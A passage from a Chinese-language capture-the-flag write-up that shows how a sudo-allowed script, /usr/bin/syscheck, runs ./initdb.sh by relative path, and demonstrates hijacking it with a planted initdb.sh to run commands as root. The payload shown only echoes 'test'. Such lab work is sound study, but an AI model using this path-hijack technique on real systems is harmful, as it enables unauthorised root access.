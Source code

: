 
看一下sudo免密执行的`/usr/bin/syscheck`：
```bash
bash-5.2$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

注意到`./initdb.sh`用了相对路径，如果能创建一个同名文件便可以轻松利用。然后关键部分为查看是否有名为`initdb.sh`的进程在执行。
尝试一下`pgrep`命令看看结果：
```bash
dvir@headless:~/app$ /usr/bin/pgrep -x "initdb.sh"
dvir@headless:~/app$ echo $?
1
```

所以`syscheck`命令会运行到`./initdb.sh`的部分，实际执行一下看看：
```bash
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.04, 0.03, 0.00
Database service is not running. Starting it...
```

确实是，并且当前目录也并无`./initdb.sh`所以无事发生。

### sudo提权

新建一个`initdb.sh`测试一下，运行`sudo /usr/bin/syscheck`可以发现最后多了一行输出“test”，即我们指定的命令：
```bash
dvir@headless:~/app$ cat initdb.sh 
#!/bin/bash
echo test
dvir@headless:~/app$ ls -l initdb.sh 
-rwxr-xr-x 1 dvir dvir 22 Apr 14 10:29 initdb.sh
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
test
```
